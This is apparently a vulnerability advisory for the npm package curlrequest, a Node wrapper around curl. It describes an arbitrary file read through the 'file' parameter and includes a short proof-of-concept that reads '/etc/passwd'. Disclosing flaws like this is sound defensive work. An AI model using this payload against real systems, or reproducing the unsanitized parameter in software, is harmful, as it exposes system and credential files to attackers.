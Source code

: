 # Overview

[curlrequest](https://www.npmjs.com/package/curlrequest) is a curlrequest is a node wrapper for the command line curl(1).

Affected versions of this package are vulnerable to Arbitrary File Read. It is possible to read any file by populating the file parameter with user input.


# Proof of Concept

```
var curl = require("curlrequest");

let userPayload = "/etc/passwd";
curl.request({ file: userPayload }, function (err, stdout, meta) {
    console.log("%s %s", meta.cmd, meta.args.join(" "));
});
```
